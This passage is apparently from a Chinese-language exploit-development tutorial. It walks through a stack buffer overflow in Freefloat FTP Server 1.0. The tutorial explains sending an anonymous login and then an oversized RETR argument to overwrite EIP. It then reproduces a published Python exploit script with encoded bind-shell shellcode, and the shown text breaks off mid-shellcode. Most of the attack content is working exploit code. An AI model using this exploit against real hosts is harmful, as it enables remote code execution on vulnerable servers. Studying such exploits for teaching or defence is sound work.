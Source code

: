 ## 发送 exploit

使用伯克利套接字 API，我们将创建一个到我们目标主机 21 端口的 TCP 连接。如果连接成功，我们将通过发送匿名的用户名和 密码的到了主机的认证。最后我们将发送 FTP 命令“RETR”紧接着是我们的碰撞变量。由于受影响的程序没有正确的过滤用户的输入，这将导致堆栈的缓冲区溢出覆盖了 EIP 寄存器允许我们的程序直接跳到并执行我们的 Shellcode 代码。

```py
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
    s.connect((target, 21))
except:
    print "[-] Connection to "+target+" failed!"
    sys.exit(0)
print("[*] Sending " + 'len(crash)' + " " + command +" byte crash...")
s.send("USER anonymous\r\n")
s.recv(1024)
s.send("PASS \r\n")
s.recv(1024)
s.send("RETR" +" " + crash + "\r\n")
time.sleep(4) 
```

## 整合整个 exploit 脚本

把所有的代码整合在一起，我们有 Craig Freyman 发布的原始的 exploit。

```py
#!/usr/bin/Python
# coding=UTF-8

#Title: Freefloat FTP 1.0 Non Implemented Command Buffer Overflows
#Author: Craig Freyman (@cd1zz)
#Date: July 19, 2011
#Tested on Windows XP SP3 English
#Part of FreeFloat pwn week
#Vendor Notified: 7-18-2011 (no response)
#Software Link:http://www.freefloat.com/sv/freefloat-ftp-server/freefloat-ftp-server.php

import socket, sys, time, struct

if len(sys.argv) &lt; 2:
    print "[-]Usage:%s &lt;target addr&gt; &lt;command&gt;"% sys.argv[0] + "\r"
    print "[-]For example [filename.py 192.168.1.10 PWND] would do the trick."
    print "[-]Other options: AUTH, APPE, ALLO, ACCT"
    sys.exit(0)
target = sys.argv[1]
command = sys.argv[2]
if len(sys.argv) &gt; 2:
    platform = sys.argv[2]
#./msfpayload windows/shell_bind_tcp r | ./msfencode -e x86/shikata_ga_nai -b "\x00\xff\x0d\x0a\x3d\x20"
#[*] x86/shikata_ga_nai succeeded with size 368 (iteration=1)
shellcode = ("\xbf\x5c\x2a\x11\xb3\xd9\xe5\xd9\x74\x24\xf4\x5d\x33\xc9"
    "\xb1\x56\x83\xc5\x04\x31\x7d\x0f\x03\x7d\x53\xc8\xe4\x4f"
    "\x83\x85\x07\xb0\x53\xf6\x8e\x55\x62\x24\xf4\x1e\xd6\xf8"
    "\x7e\x72\xda\x73\xd2\x67\x69\xf1\xfb\x88\xda\xbc\xdd\xa7"
    "\xdb\x70\xe2\x64\x1f\x12\x9e\x76\x73\xf4\x9f\xb8\x86\xf5"
    "\xd8\xa5\x68\xa7\xb1\xa2\xda\x58\xb5\xf7\xe6\x59\x19\x7c"
    "\x56\x22\x1c\x43\x22\x98\x1f\x94\x9a\x97\x68\x0c\x91\xf0"
    "\x48\x2d\x76\xe3\xb5\x64\xf3\xd0\x4e\x77\xd5\x28\xae\x49"
    "\x19\xe6\x91\x65\x94\xf6\xd6\x42\x46\x8d\x2c\xb1\xfb\x96"
    "\xf6\xcb\x27\x12\xeb\x6c\xac\x84\xcf\x8d\x61\x52\x9b\x82"
    "\xce\x10\xc3\x86\xd1\xf5\x7f\xb2\x5a\xf8\xaf\x32\x18\xdf"
    "\x6b\x1e\xfb\x7e\x2d\xfa\xaa\x7f\x2d\xa2\x13\xda\x25\x41"
    "\x40\x5c\x64\x0e\xa5\x53\x97\xce\xa1\xe4\xe4\xfc\x6e\x5f"
```